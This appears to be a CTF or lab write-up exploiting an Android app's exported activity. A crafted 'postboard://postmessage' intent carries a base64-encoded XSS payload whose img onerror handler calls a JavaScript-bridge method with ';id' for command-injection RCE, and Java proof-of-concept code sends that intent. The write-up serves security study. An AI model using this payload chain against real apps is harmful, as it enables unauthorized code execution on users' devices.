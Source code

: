     We have 4 conditions for the intent this activity receives
    
    - Intent action == `android.intent.action.VIEW`
    - data == `null`
    - The uri scheme == `postboard`
    - The uri host == `postmessage`

After this the path is decoded `from base64` to extract the message

This message is passed to `postMarkdownMessage` in the `WebAppInterface` 

but we want to execute `postCowsayMessage` because we can get the RCE from it.

## Exploitation Path

- access `handleIntent` by sending an intent that satisfies the conditions we said
- the path of the uri we send in the intent will be the message and it will be posted as markdown so:
    - We can make use of it to trigger XSS as `<img>` is supported by markdown so we can put an image and make the `onerror` event triggers the `postCowsayMessage` through the javascript interface with a `;id` as a message for RCE POC

## Exploitation

- Creating the POC app

```java
private void sendCustomIntent() {
        // Encode the message in Base64 (URL_SAFE)
        String payload = "<img src=test onerror=WebAppInterface.postCowsayMessage(';id')>";
        String base64 = Base64.encodeToString(payload.getBytes(), Base64.URL_SAFE | Base64.NO_WRAP);

        // Build the URI
        String uriString = "postboard://postmessage/" + base64;
        Uri uri = Uri.parse(uriString);

        // Create the intent
        Intent intent = new Intent("android.intent.action.VIEW", uri);
        startActivity(intent);

    }
```

Here we create the uri that satisfies the scheme and host conditions

The payload is encoded as base64 then send as the path of the uri to get decoded at the target

We trigger that intent from a button click in our poc app

```java
button.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                sendCustomIntent();
            }
        });
```
